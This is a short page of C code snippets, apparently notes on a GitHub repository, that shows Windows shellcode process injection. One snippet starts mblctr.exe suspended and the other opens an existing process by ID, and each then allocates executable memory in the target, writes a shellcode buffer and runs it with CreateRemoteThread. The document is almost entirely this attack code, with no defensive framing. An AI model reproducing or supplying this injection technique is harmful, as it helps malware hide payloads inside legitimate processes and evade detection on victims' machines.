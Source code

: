 ```c
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;
	
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);

BOOL success = CreateProcessA(
	NULL,
	(LPSTR)"C:\\Windows\\System32\\mblctr.exe",
	NULL,
	NULL,
	true,
	CREATE_SUSPENDED | EXTENDED_STARTUPINFO_PRESENT,//有扩展启动信息的结构体
	NULL,
	NULL,
	reinterpret_cast<LPSTARTUPINFOA>(&si),
	&pi);
	
HANDLE notepadHandle = pi.hProcess;
LPVOID remoteBuffer = VirtualAllocEx(notepadHandle, NULL, sizeof data, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

WriteProcessMemory(notepadHandle, remoteBuffer, data, sizeof data, NULL);
HANDLE remoteThread = CreateRemoteThread(notepadHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

if (WaitForSingleObject(remoteThread, INFINITE) == WAIT_FAILED) {
	return 1;
}

if (ResumeThread(pi.hThread) == -1) {
	return 1;
}
```

VirtualAllocEx(Use existing app)

```c
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, false, procID);
if (hProc == INVALID_HANDLE_VALUE) {
    printf("Error opening process ID %d\n", procID);
    return 1;
}
void *alloc = VirtualAllocEx(hProc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == NULL) {
    printf("Error allocating memory in remote process\n");
    return 1;
}
if (WriteProcessMemory(hProc, alloc, shellcode, sizeof(shellcode), NULL) == 0) {
    printf("Error writing to remote process memory\n");
    return 1;
}
HANDLE tRemote = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
if (tRemote == INVALID_HANDLE_VALUE) {
    printf("Error starting remote thread\n");
    return 1;
}
WaitForSingleObject(tRemote, INFINITE) == WAIT_FAILED
```
